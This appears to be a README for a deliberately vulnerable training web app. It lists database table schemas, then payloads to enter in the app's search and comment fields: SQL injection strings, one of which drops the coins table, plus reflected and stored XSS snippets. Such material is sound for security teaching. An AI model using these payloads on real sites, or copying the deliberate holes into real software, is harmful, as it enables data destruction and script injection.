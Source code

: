 # Database Tables

## Users Table

```sql
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) UNIQUE,
    password VARCHAR(255),
    role VARCHAR(255) DEFAULT 'user'
);
```
## Comments Table

```sql
CREATE TABLE comments (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    content TEXT NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    news_link VARCHAR(255) NOT NULL,
    FOREIGN KEY (username) REFERENCES users(username)
);


```
## Coins Table

```sql
CREATE TABLE coins (id INT AUTO_INCREMENT PRIMARY KEY, name VARCHAR(255), url VARCHAR(255));

```
## TrackAd Table

```sql
CREATE TABLE TRACKAD (
    id INT AUTO_INCREMENT PRIMARY KEY,
    user VARCHAR(255),
    date DATETIME,
    url VARCHAR(255)
);

```
## Economists Table

```sql
CREATE TABLE economists (id INT AUTO_INCREMENT PRIMARY KEY,name VARCHAR(255),image_url VARCHAR(255),short_info TEXT);
```


# Vulnerabilities

## SQL Injection

### Insert these commands to search fields in '/coins' and '/economists' pages

```sql
';INSERT INTO coins (name, url) values ('btc','btc.org');--
```

```sql
';DROP TABLE coins;--
```


## Reflected XSS

### Insert this HTML command to keyword search field

```html
<img src=1 onerror="alert('hacked')"/>
```

## Stored XSS

### Insert this HTML command to comment

```html
<script>alert('hacked')</script>
```
